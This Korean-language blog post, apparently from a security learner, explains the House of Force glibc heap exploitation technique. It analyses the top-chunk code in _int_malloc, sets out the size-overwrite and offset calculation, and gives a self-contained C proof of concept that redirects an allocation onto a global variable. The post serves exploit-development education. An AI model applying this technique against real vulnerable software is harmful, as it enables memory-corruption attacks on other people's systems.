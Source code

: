 ```yaml
---
layout: post
title: "House of Force"
author: "B3LLz"
tags: exploit-tech
excerpt_separator: <!--more-->
---
```


# House of Force

House of Force attack은 top chunk를 이용한 공격이다.

정확히는 Top chunk의 size를 조작하여 임의의 주소에 힙 청크를 할당시킬 수 있는 공격이다.

# Top Chunk 처리 코드 분석

다음은 `malloc.c` 의 소스코드에서 Top Chunk를 처리하는 `_int_malloc()`의 일부분이다.

```c
victim = av->top;  // top chunk의 주소를 가져옴.
size = chunksize (victim);  // top chunk의 size를 구함.

if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE))
  {
    remainder_size = size - nb;
    remainder = chunk_at_offset (victim, nb);
    av->top = remainder;
    set_head (victim, nb | PREV_INUSE |
              (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head (remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk (av, victim, nb);
    void *p = chunk2mem (victim);
    alloc_perturb (p, bytes);
    return p;
  }
```

1. Top Chunk의 주소와 크기를 저장한다(`victim = av→top`, `size = chunksize(victim)`).
2. Top Chunk의 크기가  `nb + MINSIZE` (요청받은 Chunk의 크기 + Chunk의 최소 크기)보다 크거나 같은지 검사한다.
3. Top Chunk의 크기`size`에서 `nb`를 빼준 값을 `remainder_size`에 저장한다.
4. `**chunk_at_offset` 매크로를 통해 반환된 값을 `remainder` 에 저장한다. `chunk_at_offset` 매크로는 아래와같이 정의되어 있다.**
   
    ```c
    #define chunk_at_offset(p, s)  ((mchunkptr) (((char *) (p)) + (s)))
    ```
    
    따라서 Top Chunk의 주소 값 `victim`에 `nb`를 더해준 값을 반환한다.
    
5. `remainder`는 다시 Top Chunk(`av→top`)에 저장한다.
6. `set_head`를 통해 Chunk의 header 부분을 setting 해주고 힙 영역에 메모리를 할당한다.

# House of Force Attack Flow

1. `malloc()`으로 힙 영역에 메모리를 할당한다.
   
    ![hof1](/images/hof1.png)
    
2. Top Chunk의 size 값을 `0xffffffff`(32bit)나  `0xffffffffffffffff`(64bit) 값으로 덮어쓴다.
    - 위에서 설명했던 것처럼`_int_malloc`에서 Top Chunk의 크기와 할당을 요청받은 크기를 비교하는 조건문을 참으로 만들어 힙 영역에 메모리를 할당할 수 있게 한다.
    
    ![hof2](/images/hof2.png)
    
3. 원하는 주소를 할당 받기 위해 아래의 값을 `malloc()` 인자로 전달한다.
   
    [`할당 받고자하는 메모리 주소 - Chunk header size - Top Chunk addr - Chunk header size`]
    
    ex) `0x601048 - 0x10 - 0x6024A0 - 0x10 = 0xffffffffffffeb88`
    
    - 계산된 값을 `malloc()`의 인자로 넣어주게 되면 인자로 넣어준 크기만큼 메모리를 할당하게 되는데 위에서 설명한 `chunk_at_offset` 매크로를 통해 Top Chunk의 주소가   `top chunk 주소 + 할당 요청 크기`가 된다.
    
    ![hof3](/images/hof3.png)
    
4. 그리고 다시 한 번 `malloc()`을 호출하면 원하는 주소를 반환한다.
    - 다시 한 번 `malloc()`을 해줌으로써 Target Address에 메모리가 할당된다.
    
    ![hof4](/images/hof4.png)
    

# Example

아래의 코드는 다음과 같은 동작을 하며 Target Address는 `0x601048` 이다.

1. 128byte 크기의 메모리를 할당한다.
2. Top Chunk의 Size를 `0xffffffffffffffff`으로 Overwrite 한다.
3. House of Force 공격을 하기 위해 메모리 할당해줄 크기를 구한다.
    1. `(uint64_t)(&target) - 0x10 - (uint64_t)top_chunk - 0x18`에서 `0x18`인 이유는 Target Address가 `0x601048`로 되어있기 때문에 보다 정확하게 할당해주기 위해서 Target Address의 메타데이터 크기인 `0x10`에서 `0x8`을 더 빼주었다.
    2. 힙은 16byte 단위로 메모리를 할당해주기 때문에 `0x10`만 빼주어도 `0x18`을 빼준 것과 동일한 주소에 할당을 해주지만 정확한 위치에 할당해주기 위함이다.
4. `malloc()`으로 메모리 할당을 한 번 더 해주면 Target Address의 값을 변조할 수 있다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>

char* target = "Target!!!";
char* exploit = "EXPL0I7!!!!";

int main(int argc, char* argv[]){
    uint64_t* buf1, *buf2, *buf3;
    uint64_t* top_chunk_size;
    uint64_t* top_chunk;

    printf("==Before House of Force Attack==\n");
    printf("[+] Target ===> %s\n\n", target);
    printf("Target Addr: %p\n\n", &target);

    printf("1. malloc(128)\n");
    buf1 = malloc(128); // Memory Alloc

    top_chunk = &buf1[16];       // Top Chunk Addr
    top_chunk_size = &buf1[17];  // Top Chunk Size Addr

    printf("Top Chunk Addr: %p\n", top_chunk_size);
    printf("Top Chunk Size: 0x%lx\n\n", *top_chunk_size);

    /* Top Chunk Size Overwrite */
    printf("2. OverWrite Top Chunk Size\n");
    *top_chunk_size = 0xffffffffffffffff;
    printf("Top Chunk Addr: %p\n", top_chunk_size);
    printf("Top Chunk Size: 0x%lx\n\n", *top_chunk_size);

    /* Calculate Address to House of Force */
    uint64_t calc = (uint64_t)(&target) - 0x10 - (uint64_t)top_chunk - 0x18;
    printf("3. House of Force!!\n");

    printf("Calc : %lx\n", calc);
    printf("malloc(0x%lx)\n", calc);

    /* House of Force */
    buf2 = malloc(calc);
    printf("[+] buf2 addr: %p\n", buf2);

    /* One More Allocation */
    buf3 = malloc(128);
    printf("[+] buf3 addr: %p\n\n", buf3);

    buf3[1] = (uint64_t)exploit;

    printf("==After House of Force Attack==\n");
    printf("[+] Target ===> %s\n\n", target);

    return 0;
}
```

**Reference**
> [Lazenca_House of Force (Korean)](https://www.lazenca.net/pages/viewpage.action?pageId=1148018)
>
> [Dreamhack - House of Force](https://learn.dreamhack.io/16#71)